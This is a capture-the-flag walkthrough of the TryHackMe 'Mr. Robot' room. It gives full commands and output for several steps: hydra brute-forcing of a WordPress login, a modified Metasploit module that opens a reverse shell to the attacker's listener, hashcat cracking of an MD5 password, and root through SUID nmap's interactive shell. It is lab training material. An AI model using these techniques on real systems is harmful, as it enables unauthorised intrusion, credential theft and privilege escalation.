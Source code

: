 # MrRobot

Notes from challenges I did @ <https://tryhackme.com>.

This is a full write up of the "Mr. Robot" CTF @ <https://tryhackme.com/room/mrrobot>.

Connect to tryhackme via openvpn e.g.: ```sudo openvpn 0xfab1.ovpn```

Please note:

- Flags are not fully written to avoid copy & paste ;)
- I used an SSH-Tunnel in case you are wondering why I have "localhost" instead of an IP mentioned.

## Flag 1

Let's have a look at the environment:

```sh
IP="10.10.236.216"
nmap -sC -sV $IP
nikto -h $IP
```

Since there is a php based website served on port 80 and 443 via apache let us have a look at the available folders:

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80
```

We can see a lot of folders and that there is a wordpress login page.

Further things we can check:

- View html/css/js source -> nothing special
- View links on page -> text, videos, nothing special (but cool theme)
- View robots.txt -> first flag :)

In the robots.txt we find the first key ($IP/key-1-of-3.txt) and a dictionary file (probably for wordpress login @ $IP/login).

## Flag 2

Let's download the dictionary file "fsocity.dic" and have a look:

```sh
wget $IP/fsocity.dic
```

The file seems to be a password list but there are a lot of redunant entries. If we want to use this to brute-force login to the word-press admin portal we should remove all duplicate entries. We can use ```uniq``` for this but uniq expects a sorted list so we run the following:

```sh
sort fsocity.dic | uniq > uniqfsocity.dic
```

We can use hydra to brute-force http-post-form on the wordpress login page to find out the username. In case we get a "Invalid" the attempt failed.

```sh
hydra -L uniqfsocity.dic -p something $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid"
```

We find out the username "Elliot" is valid and abort hydra. Now let's use the same dictionary again to brute-force the password of Elliot. If a correct user logs in with an invalid password we can use "incorrect" as false trigger.

```sh
hydra -l Elliot -P uniqfsocity.dic -t 64 $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect."
```

This unfortunantly takes some time but after a while we get the correct password for Elliot: ER28-0652

With access to the wordpress backend we can start Metasploit to exploit wordpress for a reverse shell:

```sh
msfdb init
msfconsole
db_nmap -sV 10.10.236.216
search wp
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD ER28-0652
set USERNAME Elliot
set RHOST 10.10.236.216
set LHOST 10.9.193.173
set LPORT 6666
show options
exploit
```

Unfortunantly I get an error running this saying wordpress is not available.
After seaching the web I find out possibly we can just ignore those errors in the used script. So lets open the script and comment out what stops the script and see what happens:

```sh
locate wp_admin_shell_upload  
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb # comment out def exploit -> #fail_with
```

and run the exploit once more:

```sh
reload
exploit
```

I now get a new error so i just comment out all "fail_with" after "def exploit" and re-run the exploit once more:

```sh
reload
show options
exploit
```

Finally the exploit works and we have a reverse shell :)
Now let's look around:

```sh
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5
```

We see key 2 "key-2-of-3.txt" but can't access it. However, we can access "password.raw-md5":

```sh
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks like the hashed password of user "robot". Let's find out what hash type is used by running ```hash-identifier```.

```sh
hash-identifier c3fcd3d76192e4007dfb496cca67e13b

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Let's crack the MD5 hash with ```hashcat``` using the rockyou password list.

```sh
hashcat -m0 --force c3fcd3d76192e4007dfb496cca67e13b /home/0xfab1/rockyou.txt

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /home/0xfab1/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Guess.Base.......: File (/home/0xfab1/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   313.5 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: hockey5 -> loser69
```

The password for robot is abcdefghijklmnopqrstuvwxyz.
So back to the reverse shell and lets login as user "robot":

```sh
meterpreter > shell
Process 2226 created.
Channel 4 created.
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -l robot
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
```

We now have access to "key-2-of-3.txt".

## Flag 3

Now as robot let us have a look at what we are allowed to do:

```sh
find / -user root -perm -4000 2>/dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We can exploit nmap (/usr/local/bin/nmap) with a vulnerability in the interactive mode since nmap is running with root priviledges but we can trigger it as user robot:

```sh
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cd /root
ls
firstboot_done  key-3-of-3.txt
cat key-3-of-3.txt
```

And there we have flag 3.
